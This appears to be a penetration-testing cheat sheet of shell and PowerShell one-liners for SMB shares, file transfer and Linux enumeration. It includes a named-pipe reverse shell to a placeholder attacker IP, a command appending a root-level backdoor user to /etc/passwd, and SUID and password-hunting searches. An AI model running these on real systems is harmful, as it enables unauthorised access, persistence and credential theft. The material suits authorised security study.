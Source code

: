 
Mount a SMB share in the system

```shell
sudo mount -t cifs -o 'user=<USERNAME>' //<IP>/share /mnt/share
```

Print permissions over a SMB share for the folder Folder

```shell
smbcacls --no-pass //<IP>/share Folder
```

Make a SMB2 server with name test and credentials.

```shell
impacket-smbserver share .  -smb2support -user user -password password
```

The connection will be done from the Windows client using `\\IP\share` as share location and the credentials.

From the Windows Machine the volume can be mounted with

```powershell
net use H: \\<KALI-IP>\share password /user:user 
```

Transfer files with SSH using a single binary with [pscp](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```powershell
C:\Users\Public\pscp.exe FILE user@<IP>:C:\Users\Public
```

List all installed packages

```shell
dpgk -l
```

List all disks

```shell
lsblk
```

List all mounts

```shell
mount
```

List all kernel modules

```shell
lsmod
```

Gain information of a module

```shell
modinfo <MODULE>
```

View connections and listening ports

```shell
ss -anp
```

Find writable files in the system

```shell
find / -writable -type d 2>/dev/null
```

Find files with SUID in the system

```shell
find / -perm -u=s -type f 2>/dev/null
```

Add a TCPDUMP listener on lo interface

```shell
 sudo tcpdump -i lo -A | grep "searchword"
```

List sudoer capabilities for a given user

```shell
sudo -l
```

List all executed cronjobs

```shell
grep "CRON" /var/log/syslog
```

Generating a new user in /etc/passwd

```shell
openssl passwd <PASSWORD>
echo "<ROOT-USERNAME>:<PASSWORD-HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Get informations of a process

```shell
ps u -C <PROCESS-NAME>
cat /proc/<PID>/status
```

Named pipe revshell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> <PORT> >/tmp/f
```

Show git altered files in a git folder

```shell
git log -p
```

Show git diff of a commit

```shell
git diff-tree -p <COMMIT>
```

Recursive cat in a folder and grep for string "password"

```shell
find . -exec cat {} + | grep -i password
```

Download all the resources on a FTP server

```shell
wget -r --user="USERNAME" --password="PASSWORD" ftp://<IP>
```